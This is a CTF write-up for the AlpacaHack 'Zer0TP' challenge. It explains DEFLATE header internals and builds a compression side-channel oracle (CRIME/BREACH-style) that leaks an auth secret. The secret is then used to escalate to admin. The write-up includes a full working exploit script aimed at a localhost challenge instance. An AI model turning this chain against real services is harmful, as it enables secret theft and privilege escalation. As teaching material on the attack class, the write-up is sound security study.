






*[link to the challenge if you wanna give it a try](https://alpacahack.com/challenges/zer0tp)*

*(kudos to Ramzy for being great company while solving this challenge, love you bud)*

After solving discoParty--the challenge recommended to me by keymoon, I asked for other suggestions
from keymoon in hopes of triggering the same dopamine rush from solving a hard CTF challenge.

"...but this is kinda misc-ish chall", he said.

He referred to this challenge as misc-ish, which at the time discouraged me a little as
I was chasing something more "realistic", but man was I mistaken about how good this one is :)

Enjoy this read, as we'll talk about a lot of things.

## The Challenge



The challenge is an authentication scheme. You log into an auth provider (called Zer0TP),
and the latter hands you tokens to give back to access your account on the original website.



Looking at the code, we see the client (the one using Zer0TP as an auth provider) giving the flag under this condition:

```py
@app.route("/")
def home():
    if 'username' not in flask.session:
        return flask.redirect("/login")

    # You can also manage admin users if you're using
    # the enterprise plan (1337 USD/month)
    r = requests.get(f"http://{ZER0TP_HOST}:{ZER0TP_PORT}/api/is_admin",
                     params={"username": flask.session['username']})
    is_admin = json.loads(r.text)["is_admin"]

    return flask.render_template("index.html",
                                 flag=FLAG,
                                 is_admin=is_admin,
                                 username=flask.session['username'])
```

Tracking down how `is_admin` is given yields:

```py
@app.route("/api/is_admin", methods=["GET"])
def is_admin():
    username = flask.request.args.get("username", "").encode()

    r = redis.Redis(host=REDIS_HOST, port=6379, db=0)
    admin = r.hget(username, 'admin')
    # ...

    return flask.jsonify({"result": "OK", "is_admin": int(admin)})


@app.route("/api/register", methods=["POST"])
def register():
    # ...

    r.hmset(username,
            {"pass": hashlib.sha256(password).hexdigest(), "admin": 0})
    return flask.jsonify({"result": "OK"})
```

So we start with a "normal" account. Our goal is to set admin to 1.

## Difficulties

I audited Zer0TP's code and found this interesting endpoint:

```py
@app.route("/api/set_admin", methods=["POST"])
def set_admin():
    # Apply for enterprise plan to use this feature :)
    username = flask.request.form.get("username", "").encode()
    req_secret = flask.request.form.get("secret", "").encode()
    admin = flask.request.form.get("admin", "0")

    r = redis.Redis(host=REDIS_HOST, port=6379, db=1)
    secret = r.get(username)
    # ...

    if secret != req_secret:
        return flask.jsonify({"result": "error",
                              "reason": "Access denied"})
    # ...

    if admin == '1':
        r.hset(username, "admin", 1)
    else:
        r.hset(username, "admin", 0)
```

If we guess a correct `secret`, we can set admin to 1. Let's see how this secret is generated:

```py
@app.route("/api/login", methods=["POST"])
def login():
    # getting username:password and checking password matches hashed_password

    id = os.urandom(8).hex()
    r = redis.Redis(host=REDIS_HOST, port=6379, db=1)
    secret = r.get(username)
    if secret is None:
        secret = base64.b64encode(os.urandom(12))
        r.set(username, secret)
        r.expire(username, 60*30)

    token = zlib.compress(username + secret)[:8]
    return flask.jsonify({"result": "OK",
                          "id": id,
                          "token": hashlib.md5(id.encode() + token).hexdigest()})
```

Each time we log into the provider, a hashed version of `id + token` is given to us.

It should be clear that our goal should be to:

1. Crack the md5 hash, then
2. Guess the secret from the result of zlib compression.

## Guessing The Secret

I'll take a question-based approach to achieve our goal above. The first thing we
ask ourselves is: "What is Zlib? And how does .compress() work?"

### 1. zlib.compress()

According to [RFC1950](https://www.rfc-editor.org/info/rfc1950):



In other words, zlib is a data format (think JSON for us web normies) that holds compressed
data, i.e., data that was once big in size and is now small in size. The RFC states
that zlib uses "DEFLATE" to compress this data into a smaller form.

So how does DEFLATE work?

### 2. DEFLATE

According to [RFC1951](https://www.rfc-editor.org/info/rfc1951):



Turns out DEFLATE is the engine that produces the compressed data, and zlib is a wrapper
around this compressed data. If you read the compression algorithm details, you will notice
how it uses LZSS (a variant of LZ77) as well as Huffman coding to compress data.

The info for either is beyond the scope of this writeup, but you should check [this video](https://www.youtube.com/watch?v=SJPvNi4HrWQ)
which excellently explains the whole process.

In short, though, assume we have 'foo baar baaz' as our input, the compressor does the following:

1. Compresses the input once using LZSS by creating backreferences. Instead of the substring 'baa' appearing
twice, we only write it once, and its second occurrence becomes a `<length, distance>` pair, i.e.:

```
foo baar baaz --> foo baar <3,5>z
```

Jump 5 positions back and write 3 characters, effectively 'baa'.

2. Takes the output of LZSS and encodes each symbol (literals, lengths and distances) based on frequencies (Huffman coding):

If a symbol is more frequent, give it a short bit length. For example, if 'a' recurs more often,
then we give it 1 bit (say 0) to encode it; 'z' recurs less often, so we give it 3 bits (say 101), and so on.

### 3. Block Types (BTYPE)

The DEFLATE bitstream is split into data blocks; each block contains data that is
either compressed or uncompressed (you can embed uncompressed data too in a DEFLATE stream).
To know which type we're dealing with, we inspect the 1st byte of DEFLATE:

```
Bit:     0   1   2   3 ...
       +---+---+---+=============================+
       |BFF|  BTYPE| ... compressed payload ...  |
       +---+---+---+=============================+
```

BTYPE can be:

* '00' indicating raw uncompressed payload to come
* '01' indicating a fixed Huffman coding
* '10' indicating a dynamic Huffman coding

> '11' is reserved, but never actually used.

You might be wondering: "What is the difference between fixed and dynamic Huffman coding?"

## Dynamic VS. Fixed Huffman Coding

In our worked example previously, I mentioned how symbols were encoded using the intuitive
approach of giving frequent symbols shorter bit-lengths and vice versa. It turns out the
mapping between symbol and code can be dynamically or statically assigned. Here's how:

1. If BTYPE = '01', the decompressor holds a hardcoded lookup table for each Huffman
code and its corresponding symbol.

2. If BTYPE = '10', the lookup table is encoded in the block to tell the decompressor
how to decode each encoded symbol.

What's interesting is that info about the payload is encoded in the header, namely:

```
Bit:   0       1..2     3..7      8..12     13..16
     +-------+---------+---------+---------+---------+
     |BFINAL |  BTYPE  |  HLIT   |  HDIST  |  HCLEN  | ... Code Lengths ...
     | (1b)  | (2b=10) | (5 bits)| (5 bits)| (4 bits)|
     +-------+---------+---------+---------+---------+
```

HLIT and HDIST include information about how many `<length, distance>` pairs exist.
If your input triggers a backreference, HLIT will be greater than 0, otherwise it's 0.

Do you see the oracle?

If we force dynamic Huffman coding (and we can, because we control the username), then
the 1st byte of the DEFLATE header can be inspected to see if a substring of our username
recurs in the secret or not!

> Note: Zlib is a wrapper around DEFLATE, and the 1st byte of DEFLATE is the 3rd byte of Zlib
>
> ```
>   0   1
> +---+---+=====================+---+---+---+---+
> |CMF|FLG|...compressed data...|    ADLER32    |
> +---+---+=====================+---+---+---+---+
> ```

### Recovering The Secret

Following our logic train, it should be noted that ideally, the only backreference we
generate is the one matching a given prefix + a character from the secret. After some digging
through the RFC, I found out that a minimum of 3 similar bytes will trigger a backreference.
Our goal then becomes to give a username in which every substring of length 3 occurs exactly once.
That way, when we add a prefix + secret\[0\], noise is reduced and HLIT is more readily inspected.

Where can we find such a sequence, though? Well, after some digging, I found the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence).



Good. We have everything to solve our 2nd goal. Again, the goal is to recover the secret from this code:

```py
import os
import zlib
import base64
import signal
import hashlib

secret = base64.b64encode(os.urandom(12))
assert len(secret) == 16

while True:
    username = input().encode()
    assert 4 <= len(username) <= 50
    print(zlib.compress(username + secret)[:8])
```

I won't cover the code in detail, and I trust you can understand it well :)

#### step2.py

```py
import os, sys
import zlib
import base64
import hashlib

secret = base64.b64encode(os.urandom(12))
# secret = b'pcVeloMX8EfvwaoO'
assert(len(secret) == 16)

# username = input('> ').encode()
# k = 4 and n = 3 (4**3=64)
# I picked this alphabet so it doesn't overlap with the secret base64 alphabet
de_bruijn = b':::;::<::=:;;:;<:;=:<;:<<:<=:=;:=<:==;;;<;;=;<<;<=;=<;==<<<=<==='[:44]

def oracle(guess, prefix):
    username = de_bruijn + prefix + guess + b"$#"
    assert(4 <= len(username) < 50)
    token = zlib.compress(username + secret)[:8]
    # HLIT | BTYPE | BFINAL (LSB-pushed first)
    # Data elements other than Huffman codes are packed starting with the least-significant bit of the data element.
    # sys.stdout.buffer.write(token)
    return token[2] >> 3

prefix = b"$#"
alphabet = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

guess = b''
for _ in range(16):
    for c in alphabet:
        byte_c = bytes([c])
        l = oracle(byte_c, prefix)

        if (l == 0): continue
        if (l != 0):
            guess += byte_c
            print(f"[{prefix}] -> {guess}")
            prefix = (prefix + byte_c)[-2:]
            break

print(secret == guess)
```

## Cracking MD5

Up until now, we assumed we had the token. In reality, though, the latter is hashed
alongside a given `id`:

```py
token = zlib.compress(username + secret)[:8]
return flask.jsonify({"result": "OK",
                      "id": id,
                      "token": hashlib.md5(id.encode() + token).hexdigest()})
```

I could've studied the format of the block header more meticulously, but it was
at this moment that I got lazy and dynamically learned which bits, among the 64 bits
of the zlib compression output, were stable, and which fluctuated.

The vibe coded script is this:

```py
import os
import zlib
import random

# --- Challenge Parameters ---
secret = b'pcVeloMX8EfvwaoO'  # Or a dummy secret of the same length
de_bruijn = b':::;::<::=:;;:;<:;=:<;:<<:<=:=;:=<:==;;;<;;=;<<;<=;=<;==<<<=<==='[:44]
alphabet = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
num_trials = 100_0000

def generate_token(guess_byte, prefix_bytes):
    username = de_bruijn + prefix_bytes + guess_byte + b"$#"
    return zlib.compress(username + secret)[:8]

print(f"[*] Simulating {num_trials} zlib compressions to analyze entropy...")

# --- Collect Data ---
tokens = []
for _ in range(num_trials):
    c = bytes([random.choice(alphabet)])
    # Varying prefix exactly as you would in the real attack (2 bytes)
    prefix = bytes([random.choice(alphabet), random.choice(alphabet)])
    tokens.append(int.from_bytes(generate_token(c, prefix), 'big'))

# --- Bitwise Analysis ---
all_ones = tokens[0]
all_zeros = ~tokens[0] & 0xFFFFFFFFFFFFFFFF
fluctuating_bits_mask = 0

for i in range(1, len(tokens)):
    all_ones &= tokens[i]
    all_zeros &= ~tokens[i] & 0xFFFFFFFFFFFFFFFF
    fluctuating_bits_mask |= (tokens[i] ^ tokens[i-1])

# Calculate exact number of bits that changed
num_fluctuating = bin(fluctuating_bits_mask).count('1')
worst_case_complexity = 2 ** num_fluctuating

# --- Output ---
print("\n" + "="*40)
print("             ANALYSIS RESULTS")
print("="*40)
print(f"Stable '1' bits   : {bin(all_ones)}")
print(f"Stable '0' bits   : {bin(all_zeros)}")
print(f"Fluctuating Mask  : {bin(fluctuating_bits_mask)}")
print("-" * 40)
print(f"Total Bits Evaluated : 64 (8 bytes)")
print(f"Stable Bits          : {64 - num_fluctuating}")
print(f"Fluctuating Bits     : {num_fluctuating}")
print("-" * 40)
print(f"Worst-Case MD5 Brute Force Complexity:")
print(f"2^{num_fluctuating} = {worst_case_complexity:,} iterations")
print("="*40)

if worst_case_complexity < 10_000_000:
    print("\n[+] Conclusion: This space is small enough to brute-force locally almost instantly.")
```

Turns out, for 100_000 tries, we had 4 million possible combinations. In linear time,
and for a modern computer, that is a walk in the park.

---

Knowing which bits changed and which stayed the same, I vibe coded a solve script
that got the flag like this:

1. **Registers a baseline account** on the Zer0TP service to establish an initial, valid session state.
2. **Executes a side-channel brute-force loop** to leak the 16-byte secret byte-by-byte. We continuously rename the user with a crafted username incorporating a De Bruijn sequence. By analyzing how changes to the input affect the Huffman tree metadata structures (the `HLIT` variations reflected in the token hashes), the loop acts as an oracle to confirm correct character guesses.
3. **Cleans up the account state** by renaming the user back to the original baseline username (`baseusr`) once the full 16-byte secret has been successfully recovered.
4. **Escalates privileges to administrator** by submitting the leaked secret token directly to the `/api/set_admin` endpoint.
5. **Authenticates against the third-party application** using the escalated session tokens, follows the subsequent redirect, and extracts the target flag (`nek0pts{...}`) from the application home page.

### exploit.py

```py
import os
import sys
import zlib
import hashlib
import time
import requests
import re

# ==========================================
# 0. CONFIGURATION
# ==========================================
ZER0TP_URL = "http://localhost:8080"    # Zer0TP service
THIRD_PARTY_URL = "http://localhost:8077" # Third-party app

BASE_USER = b"baseusr"                        # initial account, 4..49 chars
BASE_PASS = b"password123"                    # 8..127 chars

# ==========================================
# 1. ATTACKER CONSTANTS & PRECOMPUTATION
# ==========================================
de_bruijn = b':::;::<::=:;;:;<:;=:<;:<<:<=:=;:=<:==;;;<;;=;<<;<=;=<;==<<<=<==='[:44]
alphabet = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

BASE_1_BITS      = 0b111100010011100000001011100000000000001000000000000000000000000
FLUCTUATING_MASK = 0b10000000111111111110000111111100000001110000

fluctuating_positions = [i for i in range(64) if (FLUCTUATING_MASK >> i) & 1]
shifts = [1 << pos for pos in fluctuating_positions]
total_iterations = 1 << len(fluctuating_positions)

# ==========================================
# 2. HTTP HELPERS – Zer0TP API
# ==========================================
def register(username, password):
    r = requests.post(f"{ZER0TP_URL}/api/register",
                      data={"username": username, "password": password})
    res = r.json()
    if res.get("result") != "OK":
        print(f"[-] Register failed: {res}")
        sys.exit(1)

def login(username, password):
    r = requests.post(f"{ZER0TP_URL}/api/login",
                      data={"username": username, "password": password})
    res = r.json()
    if res.get("result") != "OK":
        print(f"[-] Login failed for {username}: {res}")
        sys.exit(1)
    return res["id"].encode(), res["token"]

def rename(old_username, password, new_username):
    r = requests.post(f"{ZER0TP_URL}/api/rename",
                      data={"username": old_username,
                            "password": password,
                            "new_username": new_username,
                            "new_password": password})
    res = r.json()
    if res.get("result") != "OK":
        print(f"[-] Rename failed: {res}")
        sys.exit(1)

def make_curl_login(username, password):
    """Generate curl command for login"""
    return f"""curl -X POST '{ZER0TP_URL}/api/login' \\
  -d 'username={username.decode()}' \\
  -d 'password={password.decode()}'"""

def make_curl_third_party_login(username, auth_id, auth_token):
    """Generate curl command for third-party login"""
    return f"""curl -X POST '{THIRD_PARTY_URL}/login' \\
  -d 'username={username.decode()}' \\
  -d 'id={auth_id.decode()}' \\
  -d 'token={auth_token.decode()}' \\
  -c cookies.txt -L"""

def make_curl_get_flag():
    """Generate curl command to get the flag"""
    return f"""curl -X GET '{THIRD_PARTY_URL}/' \\
  -b cookies.txt"""

# ==========================================
# 3. THE ORACLE (side‑channel via HLIT)
# ==========================================
def oracle(guess_byte, prefix_bytes, current_username, password):
    crafted_username = de_bruijn + prefix_bytes + bytes([guess_byte]) + b"$#"
    rename(current_username, password, crafted_username)
    challenge_id, target_md5 = login(crafted_username, password)

    recovered_token = None
    for counter in range(total_iterations):
        candidate_int = BASE_1_BITS
        for i, shift in enumerate(shifts):
            if (counter >> i) & 1:
                candidate_int |= shift
        candidate_bytes = candidate_int.to_bytes(8, 'big')
        if hashlib.md5(challenge_id + candidate_bytes).hexdigest() == target_md5:
            recovered_token = candidate_bytes
            break

    if recovered_token is None:
        print("\n[-] FAILED to crack token! Masks may be wrong.")
        sys.exit(1)

    return recovered_token[2] >> 3, crafted_username

# ==========================================
# 4. EXPLOIT LOOP – recover secret
# ==========================================
print("[*] Starting Full Exploit Chain against Zer0TP...")
print(f"[*] Zer0TP        : {ZER0TP_URL}")
print(f"[*] Third-party   : {THIRD_PARTY_URL}")
print(f"[*] Base account  : {BASE_USER.decode()}")
print(f"[*] Search Space  : 2^{len(fluctuating_positions)} ({total_iterations:,}) hashes per guess\n")

register(BASE_USER, BASE_PASS)
print("[+] Base account created.")

prefix = b"$#"
guess_acc = b""
current_name = BASE_USER
overall_start = time.time()

for byte_idx in range(16):
    print(f"[*] Brute-forcing secret byte {byte_idx+1}/16...")
    byte_start = time.time()
    for c in alphabet:
        sys.stdout.write(f"\r    Testing '{chr(c)}'...")
        sys.stdout.flush()
        l, new_name = oracle(c, prefix, current_name, BASE_PASS)
        current_name = new_name
        if l != 0:
            guess_acc += bytes([c])
            time_taken = time.time() - byte_start
            sys.stdout.write(
                f"\r[+] Found byte {byte_idx+1}/16: "
                f"{guess_acc.decode()} (in {time_taken:.1f}s)\n"
            )
            prefix = (prefix + bytes([c]))[-2:]
            break
    else:
        print("\n[-] Exhausted alphabet without finding a valid character.")
        sys.exit(1)

print(f"\n[+] Recovered secret: {guess_acc.decode()}")
print(f"[*] Current username (last crafted payload): {current_name}")

# ==========================================
# 5. RENAME BACK TO CLEAN USERNAME
# ==========================================
print(f"\n[*] Renaming account from '{current_name.decode()}' back to '{BASE_USER.decode()}'...")
rename(current_name, BASE_PASS, BASE_USER)
current_name = BASE_USER
print("[+] Account restored to clean username.")

# ==========================================
# 6. ESCALATE TO ADMIN
# ==========================================
print("\n[*] Escalating to admin...")
r = requests.post(f"{ZER0TP_URL}/api/set_admin",
                  data={"username": current_name,
                        "secret": guess_acc,
                        "admin": "1"})
if r.json().get("result") == "OK":
    print("[+] Successfully set admin=1 for our account!")
else:
    print(f"[-] Could not set admin: {r.json()}")
    sys.exit(1)

# Verify admin status
verify = requests.get(f"{ZER0TP_URL}/api/is_admin",
                     params={"username": current_name})
print(f"[*] Admin verification: {verify.json()}")

# ==========================================
# 7. GET THE FLAG FROM THIRD-PARTY APP
# ==========================================
print("\n[*] Getting fresh login token from Zer0TP...")
auth_id, auth_token = login(current_name, BASE_PASS)
print(f"[*] Login ID: {auth_id.decode()}")
print(f"[*] Login Token: {auth_token}")

print("\n[*] Logging into third-party app with admin account...")
s = requests.Session()
resp = s.post(f"{THIRD_PARTY_URL}/login",
              data={"username": current_name.decode(),
                    "id": auth_id.decode(),
                    "token": auth_token},
              allow_redirects=False)  # Don't follow redirect to see the 302

print(f"[*] Third-party login response status: {resp.status_code}")
print(f"[*] Response headers: {dict(resp.headers)}")

if resp.status_code == 302:
    print("[+] Login successful (redirecting to /)")

    # Now follow the redirect to get the flag
    home = s.get(f"{THIRD_PARTY_URL}/")
    print(f"[*] Home page status: {home.status_code}")

    # Extract the flag
    match = re.search(r"nek0pts\{[^}]+\}", home.text)
    if match:
        flag = match.group(0)
        print("\n" + "="*60)
        print(f"[*] Exploit Finished in {(time.time() - overall_start) / 60:.1f} minutes!")
        print(f"[*] Recovered secret : {guess_acc.decode()}")
        print(f"[+] FLAG : {flag}")
        print("="*60)
    else:
        print("[-] Flag not found in response.")
        print("\n[*] Page content (first 1000 chars):")
        print(home.text[:1000])

else:
    print(f"[-] Login failed with status {resp.status_code}")
    print(f"[-] Response: {resp.text[:500]}")

    # Generate curl commands for manual debugging
    print("\n" + "="*60)
    print("[*] MANUAL DEBUGGING COMMANDS:")
    print("="*60)
    print("\n# 1. Login to Zer0TP:")
    print(make_curl_login(current_name, BASE_PASS))
    print("\n# 2. Login to Third-Party App (use ID and TOKEN from step 1):")
    print(make_curl_third_party_login(current_name, auth_id, auth_token))
    print("\n# 3. Get the flag:")
    print(make_curl_get_flag())
    print("\n# 4. Check admin status:")
    print(f"curl -X GET '{ZER0TP_URL}/api/is_admin?username={current_name.decode()}'")
```



And there we go~ We got the flag :)

## Key Takeaways

1. **The Danger of Mixed-Trust Compression:** Combining user-controlled data (the username) and sensitive secrets (the auth token) within the same compression context opens the door to side-channel leakage. This is the exact underlying mechanism behind famous web vulnerabilities like CRIME and BREACH.
2. **Tree Metadata as an Oracle:** In dynamic Huffman coding (`BTYPE = 10`), the compressor must send the shape of its trees in the block header via fields like `HLIT`. Because these field sizes fluctuate based on whether a duplicate string was found, an attacker can use the header size itself as an oracle to confirm or deny character guesses.
3. **De Bruijn Sequences for Noise Reduction:** When testing for string matching via compression, using a De Bruijn sequence ensures that every possible $n$-gram of a certain length occurs exactly once. This eliminates accidental self-overlapping matches within your own payload, isolating the side-channel to *only* look for matches against the secret.
4. **Empirical Bit-Masking over Math Deficit:** When confronted with complex, bit-aligned cryptographic or structural puzzles, mapping the output state empirically using an entropy analysis script can reveal structural invariants. Here, discovering that only a fraction of the 64-bit space actually fluctuated drastically collapsed the MD5 brute-force complexity down to linear, instantly crackable scales.

## References & Further Reading

* **AlpacaHack Challenge:** [Zer0tp Challenge Page](https://alpacahack.com/challenges/zer0tp)
* **RFC 1950:** [ZLIB Compressed Data Format Specification](https://datatracker.ietf.org/doc/html/rfc1950)
* **RFC 1951:** [DEFLATE Compressed Data Format Specification](https://datatracker.ietf.org/doc/html/rfc1951)
* **De Bruijn Sequences:** [Wikipedia - De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
* **Visualizing DEFLATE:** [How DEFLATE Compression Works](https://www.youtube.com/watch?v=SJPvNi4HrWQ) — An excellent video breakdown of LZSS and Huffman coding interactions.
* **CRIME & BREACH Attacks:** [The CRIME Attack Against TLS](https://en.wikipedia.org/wiki/CRIME) — Historical context on how compression side-channels break real-world web security protocols.
